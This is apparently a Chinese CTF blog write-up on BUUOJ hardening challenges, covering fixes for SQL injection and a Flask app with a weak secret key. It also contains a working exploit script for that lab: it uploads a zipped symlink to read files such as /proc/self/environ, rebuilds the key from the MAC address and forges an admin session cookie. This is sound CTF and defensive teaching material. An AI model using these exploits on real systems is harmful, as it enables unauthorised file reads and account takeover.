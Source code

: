 ```yaml
---
title: "buuoj加固题 Wp"
slug: "buuoj-fixchalls-wp"
description: "合集合集，长期更新~"
date: 2021-11-07T08:57:29+08:00
categories: ["CTF"]
series: []
tags: ["wp"]
draft: false
toc: true
---
```


buuoj新上了加固题这个分类，也就是线下awdp中fix的部分，只要将靶机中存在的漏洞修复好并通过check的检测即可拿到flag；有一说一，比单纯attack拿flag会简单很多（适合我这种沸物web

下面的wp会先说纯修复角度，再串一下整体的知识点；因为自己水平有限，想尽可能说的清楚一些就会比较啰嗦，见谅QAQ

## Ezsql

### FIX

![image-20211107083450780](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211107083450780.png)

200行，太典了，对传入的参数完全没有检测，是个筛子；用预处理的方式修，又可以分为两种形式

### mysql预处理

![image-20211107083655664](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211107083655664.png)

其中201行的`ss`指的是绑定SQL参数的类型为string，这一项必不可少而且必须与后面的参数一一对应

### PDO预处理

![image-20211107084309239](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211107084309239.png)

PDO预处理属于是通防了，能有效地应对sqli特别是堆叠注入，208行的设置项意为禁用模拟预处理

## [CISCN2021 总赛]babypython

### FIX

ssh连上后看下目录结构

![image-20211106212456961](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106212456961.png)

查看/app/y0u_found_it/y0u_found_it_main.py

![image-20211106212556547](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106212556547.png)

11行这不是典中典了？读mac地址就打通了，所以我们直接把SECRET_KEY改为一个又长又乱的随机字符串即可，可以使用[uuid/guid生成器](uuid/guid生成器)来生成

![image-20211106210732859](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106210732859.png)

> ————碎碎念：这里修复的时候可能看脸？我在几天前试的时候用的一模一样的方法，但是怎么都不能过check，今天试了一次就可以了，但是在写wp的时候再复盘就又不可以了……emmm 可能还是哪里的细节出了错但是我没有注意到？给我整不会了属于是

### 关于本题

是个原题，还是个有了包浆的原题，参见**[[HCTF 2018]Hideandseek](https://buuoj.cn/challenges#[HCTF%202018]Hideandseek)**  |  **[[SWPU2019]Web3](https://buuoj.cn/challenges#[SWPU2019]Web3)**，做过的就知道这他妈真的就一模一样hhhhhhhh

考点在于linux软链接+uuid+flask-session伪造，后者还经常单独出题，比如**[[CISCN2019 华东南赛区]Web4](https://buuoj.cn/challenges#[CISCN2019%20%E5%8D%8E%E4%B8%9C%E5%8D%97%E8%B5%9B%E5%8C%BA]Web4)**，都快烤烂了

### 考点一 · uuid&SECRET_KEY

SECRET_KEY通过uuid+伪随机数的方式生成，这个考点可以参考，其中app.py是这样写的

![image-20211106212834438](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106212834438.png)

`uuid.getnode()`会以48位二进制长度的正整数形式返回mac地址，linux下mac地址的位置在`/sys/class/net/eth0/address`，读出mac地址后我们也来生成一波伪随机数

![image-20210707204313712](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210707204313712.png)

之后通过flask-session-cookie-manager一把梭即可伪造session值

![image-20210707204240633](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210707204240633.png)

————另外，通常访问不存在目录时SECRET_KEY会出现在请求头中

### 考点二 · linux软链接文件读取&zip压缩包

ln -s是linux中的软链接命令，我们可以制作对应文件的绝对路径的软链接来读文件；当不知道flask工作目录可以使用`/proc/self/cwd`来指向当前进程的目录

```bash
ln -s /proc/self/cwd/flag/flag/.jpg qwe
```

或者通过`/proc/self/environ`文件里包含进程的环境变量，可以从中获取flask的绝对路径，再制作软链接（关于/proc的更多信息可以参见->[/proc目录的妙用](/proc目录的妙用)  |  [LFItoRCE利用总结](https://bbs.zkaq.cn/t/3639.html)，题->[网鼎杯 2020 白虎组]PicDown

```bash
ln -s /proc/self/environ qwe
```

而对于目录内文件的列举也是有方法的（参考->[34C3 CTF Web题 extract0r Writeup](https://blog.csdn.net/keyball123/article/details/105169946)

制作好的软链接通过zip打包

```bash
zip -ry qwe.zip qwe
```

更多题目中的应用可以参见->[记录一道题的多种解法](http://redteam.today/2018/01/20/%E8%AE%B0%E5%BD%95%E4%B8%80%E9%81%93%E9%A2%98%E7%9A%84%E5%A4%9A%E7%A7%8D%E8%A7%A3%E6%B3%95/)

关于这个漏洞的实际应用可以参见->[GitLab 任意文件读取漏洞 (CVE-2016-9086) 和任意用户 token 泄露漏洞](https://paper.seebug.org/104/)

### *ATTACK

exp.py - 1 生成软链接&zip&自动上传

```python
import requests
import os
import sys

url = 'http://0a716e50-1cf2-4cd8-a00f-b70d9987ed64.node3.buuoj.cn/upload'

def makezip():
    os.system('ln -s '+sys.argv[1]+' exp')
    # os.system('zip --symlinks exp.zip exp')
    os.system('zip -ry exp.zip exp')
makezip()

files = {'the_file':open('./exp.zip', 'rb')}
def exploit():
    res = requests.post(url, files=files)
    print(res.text)
exploit()

os.system('rm -rf exp')
os.system('rm -rf exp.zip')
```

```bash
python3 /proc/self/environ
python3 exp.py /app/y0u_found_it.ini
python3 /app/y0u_found_it/y0u_found_it_main.py
python3 /sys/class/net/eth0/address
```

![image-20211106234837193](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106234837193.png)

exp.py - 2 根据mac地址生成伪随机数

```python
import uuid
import random

mac = "02:42:0a:00:cb:06"
temp = mac.split(':')
temp = [int(i,16) for i in temp]
temp = [bin(i).replace('0b','').zfill(8) for i in temp]
temp = ''.join(temp)
mac = int(temp,2)
random.seed(mac)
result = str(random.random()*100)
print(result)
# 36.014406163923596
```

```bash
python3 flask_session_cookie_manager3.py decode -c 'eyJ1c2VybmFtZSI6Imd1ZXN0In0.FGg0EA.rHjESo_p6RCP0eiosSFmF3xEmRc'
python3 flask_session_cookie_manager3.py encode -s '36.014406163923596'  -t "{u'username': u'admin'}"
```

![image-20211106235751916](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106235751916.png)

翻回头看源码，好家伙这里有内鬼

![image-20211106235832895](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106235832895.png)

![image-20211107075450043](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211107075450043.png)

返回的并不是真正的flag，而是secret.secret中的内容no flah

![image-20211107075326929](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211107075326929.png)

67行这里会对unzip打开的文件进行检查，只要含有flag字样就会重定向至/?error=1

————这里我感觉原题应该secret.py中的`secret=`直接就能读出来flag，想了好久，再绕一层flag.txt的话我是想不出来什么bypass的方法了，我倾向于是布置环境的时候没有设置这一点（

## ***[CISCN2021 总决赛]easy_python

![image-20211106212057524](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106212057524.png)

不知道是我的网络问题还是什么未知的bug……check之后就会宕机，只能重新下发靶机

## ***[CISCN2021 总决赛]ezj4va

https://juejin.cn/post/6997314123918737422

还不会java 先空着TAT

